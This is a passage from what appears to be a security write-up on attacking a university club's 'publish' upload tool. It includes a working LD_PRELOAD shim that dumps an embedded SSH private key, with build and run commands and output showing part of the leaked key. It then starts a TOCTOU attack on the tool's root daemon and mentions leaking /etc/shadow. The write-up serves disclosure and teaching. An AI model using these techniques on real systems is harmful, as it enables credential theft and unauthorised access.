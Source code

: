 We can make this exploit easier by overriding the `libssh2_userauth_publickey_frommemory` function, [which `publish` calls](https://github.com/AIS-UCLA/sys/blob/249d2f75529b957fd80d5091678ff50768383a71/publish/publish.c#L218) with the contents of `PRIVKEY` as part of setting up its SSH connection.

```c
// pwn.c
#include <stdio.h>

int libssh2_userauth_publickey_frommemory(void*, const char*, size_t, const char*, size_t, const char* key, size_t, const char*) {
	printf("%s\n", key);
}
```

```bash
arcblroth@temescal:~$ gcc -Wall -fPIC -shared -o a.so pwn.c
arcblroth@temescal:~$ LD_PRELOAD=./a.so publish
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAtczLVAv+xVyFN2EYokYB4nKlWrGY8rA2XQO/09qRfJMajIO
...
```

And we have a "flag"!

## The second pwn: TOCTOU (beat) strikes back!

Upon recommendation, on 2/23 Chris updated the `publish` script to use a client-daemon model. Rather than embed the `cherf` SSH key in the `publish` script itself, `publish` now connects over a UNIX socket to a daemon service `publish-daemon` running under the root user. All of the checks (valid user id, public_html under 10 MB, etc) that `publish` used to run, as well as the SSH key, have been moved to `publish-daemon`.

Given that we can no longer execute arbitrary code in `publish-daemon`, is this finally secure? Rather than do my 181 take-home final, I decided to investigate.

The crux of `publish-daemon`'s code is the function [`upload_dir`](https://github.com/AIS-UCLA/sys/blob/d3f0cb74513d614cf2c7e0e926c8ed868a84b64d/publish/daemon.c#L101), which `readdir`s a directory, does some checks, and then recursively sends every file in that directory to cherf:

```c
int upload_dir(int fd, LIBSSH2_SFTP *sftp, const char *local_path, const char *remote_path) {
  // ...
  else if (S_ISREG(st.st_mode)) {                  // (1)
      FILE *f;
      char buf[4096];
      size_t nread = 0;
      LIBSSH2_SFTP_HANDLE *handle;

      fprint(fd, "%s\n", local_entry);             // (2)
      if ((f = fopen(local_entry, "r")) == NULL) { // (3)
        fprint(fd, "fopen: %r\n");
        return -1;
      }
      // ...
  }
  // ...
}
```


[^1]: BOL was definitely designed for the 2000s and hasn't been updated since. It takes over a second to load a 20-byte homepage...
[^2]: Note that this idea can work with *any* file readable by `publish-daemon` - we could have leaked `/etc/shadow` with the exact same technique!
[^3]: Note that we can also use this exploit to bypass the 10 MB max directory size check!